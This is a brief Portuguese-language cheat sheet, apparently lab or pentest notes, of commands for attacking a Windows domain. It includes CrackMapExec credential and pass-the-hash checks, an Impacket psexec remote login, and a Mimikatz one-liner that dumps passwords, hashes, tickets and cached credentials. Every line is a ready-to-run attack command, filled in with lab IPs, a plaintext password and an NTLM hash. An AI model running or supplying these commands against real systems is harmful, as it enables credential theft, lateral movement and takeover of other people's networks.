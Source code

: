 CRACKMAPEXEC
      - Testar usuário local: crackmapexec smb 192.168.98.2 -u john -p User1@#$%6 --local-auth
      - Testar usuário no domínio: crackmapexec smb 192.168.98.2 -u john -p User1@#$%6
      - Testar usuário passando o hash: crackmapexec smb 192.168.98.30 -u Administrator -H :69865e966bb089639e9b1c7f719427fa -d MGMT
IMPACKET
      - Tentar se conectar na máquina: /usr/share/doc/python3-impacket/examples/psexec.py 'child/john:User1@#$%6@192.168.98.30'

MIMIKATZ
      - Descobrir hashes e senhas: mimikatz.exe "privilege::debug" "Token::elevate" "sekurlsa::logonPasswords" "sekurlsa::tickets" "lsadump::sam" "lsadump::secret" "lsadump::cache" "exit"
